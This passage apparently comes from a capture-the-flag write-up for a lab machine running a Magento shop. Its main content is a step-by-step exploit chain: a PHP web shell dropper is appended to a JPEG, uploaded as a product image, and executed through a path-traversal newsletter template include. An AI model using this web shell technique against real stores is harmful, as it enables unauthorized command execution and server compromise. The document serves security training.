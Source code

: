 - Then browse to Catalog > Manage Products and select Edit for one of the active products. Then select Images in the left panel to upload a new image file for this product. Next stage the JPEG file that will be uploaded:

```bash
# install an image manupulation libaray
sudo apt-get install imagemagick
# create an empty image
convert -size 32x32 xc:white bubba.jpg
# create the PHP shell dropper into a directory where files are uploaded
echo "<?php file_put_contents('/var/www/html/media/tmp/bubba.php','<?php echo shell_exec(\$_REQUEST[\"c\"]); ?>');echo 'shell dropped';?>" > bubba.php
# append the PHP code to the valid image
cat bubba.jpg bubba.php > bubbagump.jpg
```

- **NOTE:** If Adobe Flash is not installed:

```bash
# download from here: 
# - https://get.adobe.com/flashplayer/download/?installer=FP_32.0_for_Linux_64-bit_(.tar.gz)_-_NPAPI&stype=7772&standalone=1
tar -xvf flash_player_npapi_linux.x86_64.tar.gz
sudo cp libflashplayer.so /usr/lib/mozilla/plugins
sudo cp -r usr/ /usr/
# now restart firefox
```

- Then upload `bubbagump.jpg` to the target. After uploading, right click on the image and select the URL. It should be the following:
  - **NOTE:** This is the URL that was used to figure out where to place the PHP shell in previous steps

```
http://10.10.10.140/media/tmp/catalog/product/b/u/bubbagump.jpg
```

- Now, select Newsletter > Newsletter Templates > Add New Template. Then add the following as the template content:

```
{{block type="core/template" template="../../../../../../media/tmp/catalog/product/b/u/bubbagump.jpg"}}
```

- Then select Save Template and then Preview Template to get the following:

![web6](./swagshop/web6.png)

- Now browse to `http://10.10.10.140/media/tmp/` to see the following:

![web7](./swagshop/web7.png)

